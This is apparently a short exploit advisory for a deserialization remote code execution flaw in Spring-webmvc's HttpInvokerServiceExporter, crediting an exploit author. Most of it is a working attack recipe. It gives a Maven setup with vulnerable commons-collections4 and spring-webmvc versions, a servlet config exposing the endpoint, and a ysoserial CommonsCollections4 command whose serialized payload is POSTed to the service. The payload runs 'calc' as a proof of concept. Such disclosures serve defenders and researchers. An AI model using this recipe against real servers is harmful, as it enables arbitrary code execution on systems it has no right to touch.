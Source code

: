 # Spring-webmvc remote code execution vulnerability #

**project name**： Spring-webmvc <br>
**Versions Affected**: 5.2.x, 5.1.x,4.2.x,4.1.x,4.0.x,3.2.x,3.1.x,3.0.x <br>
**Exploit Author**: Lynx@vfsec.com <br>
**Homepage**: https://spring.io/projects/spring-framework , https://docs.spring.io/spring/docs/current/spring-framework-reference/web.html <br>


## exploit_detail <br>
    
Build the Maven project for Spring-WebMVC RPC(Remote Method Call)，pom.xml： <br>
```
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-webmvc</artifactId>
    <version>5.2.8.RELEASE</version>
</dependency>
```

example-servlet.xml:
```
<bean name="/hello" class="org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter">
    <property name="service">
        <bean class="com.example.springweb.mvc.simpleHelloWorld"></bean>
    </property>
    <property name="serviceInterface">
        <value>com.example.springweb.mvc.HelloWorld</value>
    </property>
</bean>
```


USE ysoserial_tool to generate the payload，command is `java -jar ysoserial_tools/ysoserial-0.0.5.jar CommonsCollections4 "calc" > ysoserial_tools/test.ser`
Submit test.ser as a POST request to the Spring-webmvc-rpc API